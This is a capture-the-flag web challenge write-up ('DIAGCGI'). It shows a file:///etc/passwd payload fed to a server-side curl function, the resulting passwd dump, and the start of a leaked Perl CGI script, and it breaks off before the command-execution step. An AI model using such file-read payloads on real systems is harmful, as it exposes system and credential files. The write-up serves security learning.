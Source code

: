 #DIAGCGI
**Category:** Web
**Points:** 68
**Description:**
>http://54.92.127.128:16888/
**Hint:**
## Write-Up

##Arbitrary File Read

```file:///etc/passwd``` and use curl function shows us 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
key:x:1001:1001::/home/key:
```

##Command Execution
Default location for cgi-bin on Ubuntu (gained by reading ```/etc/issue```) is ```/usr/lib/cgi-bin```; as such we can read ```/usr/lib/cgi-bin/dana-na.cgi``` and get the following:

```
#!/usr/bin/perl -w

use CGI;
use Digest::MD5 qw(md5_hex);

$cgi = new CGI;
$SESSDIR = "/tmp/";
$sessfile = $cgi->cookie("diagsess");
$arg0 = $cgi->param("arg");
$action = $cgi->param("action");
$arg = &safestr($arg0);
